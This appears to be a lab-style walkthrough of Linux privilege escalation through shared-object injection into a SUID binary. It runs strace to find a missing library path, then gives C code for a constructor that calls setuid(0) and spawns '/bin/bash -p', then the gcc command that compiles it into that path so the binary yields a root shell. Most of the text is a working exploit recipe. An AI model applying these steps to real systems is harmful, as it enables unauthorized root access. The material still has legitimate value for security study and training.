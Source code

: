 
Suppose we have a `/usr/local/bin/suid-so` SUID executable is vulnerable to shared object injection on our machine.

First, execute the file and note that currently it displays a progress bar before exiting:

```bash
/usr/local/bin/suid-so
```

Run `strace` on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the **.config** directory for the libcalc.so file:

```bash
mkdir /home/user/.config
```

Now we inject this c code in a file and we compile it into a shared object at the location the `suid-so` was looking for.

Here is the code to compile:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

Now we compile:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

and then we execute the `sudi-so`:

```bash
/usr/local/bin/suid-so
```